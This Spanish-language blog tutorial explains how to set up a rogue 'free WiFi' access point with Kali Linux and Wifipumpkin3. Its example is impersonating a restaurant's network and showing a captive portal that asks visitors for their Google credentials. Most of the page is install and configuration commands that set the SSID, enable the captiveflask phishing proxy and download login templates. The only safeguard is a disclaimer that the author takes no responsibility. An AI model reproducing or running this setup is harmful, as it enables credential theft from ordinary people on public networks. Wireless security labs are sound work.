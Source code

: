 ```yaml
---
title: "Rogue Ap Wifi"
layout: single
category: "Proyectos"
slug: "proyectos/rogue-ap-wifi"
date: 2025-09-30
---
```


# Rogue AP Wifi + Custom template

En este caso, el laboratorio trata de montar un punto de acceso de "Wifi Gratis", en el cual se accede sin contraseña, pero al conectarte a la red te pide que inicies sesión. 

Para el caso, se pueden utilizar o crear plantillas personalizadas, por ejemplo, supongamos que realizamos el laboratorio en un restaurante, creariamos un punto de acceso con el nombre del restaurante y un portal personalizado solicitando credenciales de acceso, por ejemplo a google.

___Esto es un proyecto educativo, del cual no me hago responsable de su uso___

### Herramientas e Instalación
En este caso tiraremos de **Kali Linux** y **Wifipumpkin3** Ya que nos permite crear nuestras plantillas personalizadas de una manera muy sencilla.

##### REQUISITOS
Tarjeta de red que permita **AP MODE** , y (opcional) **MONITOR MODE**
Tarjeta de red (sea inalámbrica o por ethernet), conectada a internet

```bash
# Instalación (metodo 1)
sudo apt install wifipumpkin3

# Método alternativo
git clone https://github.com/P0cL4bs/wifipumpkin3.git 
cd wifipumpkin3 
sudo make install

#LANZAMIENTO
wifipumpkin3
```



##### OPCIONAL (En docker)
```bash
# INSTALACIÓN
git clone https://github.com/P0cL4bs/wifipumpkin3.git
cd wifipumpkin3
sudo docker build -t "wifipumpkin3" .

#LANZAMIENTO
sudo docker run --privileged -ti --rm --name wifipumpkin3 --net host "wifipumpkin3" 
```

### Configuración AP
necesitamos averiguar los interfaces de red con `ifconfig`


```bash
wifipumpkin3

#mostrar ayuda
help

#configurar AP
ap
set interface <interfaz_para_el_ap>
set interface_net <interfaz_con_internet>
set ssid <nombre_ap>
ignore pydns_server
set proxy captiveflask
set captiveflask.force_ssredirect_to_url https://<url>
set captiveflask.proxy_port 443
set captiveflask.google true
start
```

### Descargar plantillas
```bash
# DESCARGAR PLANTILLAS POR DEFECTO
use.misc.extra_captiveflask
download

# Listar plantillas
list

#instalar plantilla
install <nombre>
```
